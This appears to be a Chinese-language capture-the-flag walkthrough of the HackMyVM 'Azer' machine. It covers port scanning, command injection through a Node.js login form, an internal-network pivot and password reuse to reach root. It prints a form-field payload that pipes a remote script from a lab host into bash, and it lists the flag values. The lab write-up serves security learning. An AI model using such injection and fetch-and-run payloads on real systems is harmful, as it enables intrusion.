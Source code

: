 # Azer

2024-11-03 https://hackmyvm.eu/machines/machine.php?vm=Azer

difficulty: Easy

## IP

192.168.5.40

## Scan

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: L&#214;SEV | L&#246;semili &#199;ocuklar Vakf\xC4\xB1
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Login Page
```

80 端口对应的 web 应用没找到利用点，看看 3000 的 nodejs 服务。首页是个登陆窗口，输入 1 和 1 发现会把参数传递到 sh 脚本执行：

```
Error executing bash script: Command failed: /home/azer/get.sh 1 1 fatal: not a git repository (or any of the parent directories): .git
```

可以实现命令注入，用;号分割

```
username=;curl+http://192.168.5.3/5.3/8888.sh|bash;&password=root
```

在 /home/azer 得到了 user flag：

```
azer@azer:~$ cat user.txt
0d2856d69dc348b3af80a0eed67c7502
```

继续提权到 root，peash 没发现提权路径，发现了另外一个内部网络：10.10.10.0/24 ，上传 nmap static file 进行扫描看是否能找到其他内部主机，发现另外一个存活的主机：10.10.10.10，对其端口扫描发现开放 80 端口,看看端口上显示什么：

```
azer@azer:~$ curl http://10.10.10.10
.:.AzerBulbul.:.
```

没发现其他目录或者文件，上面这串字符串也有可能是密码，尝试看看是不是 root 的密码，尝试成功，最后获得了 root flag：

```
root@azer:~# cat root.txt
b5d96aec2d5f1541c5e7910ccab527d8
```
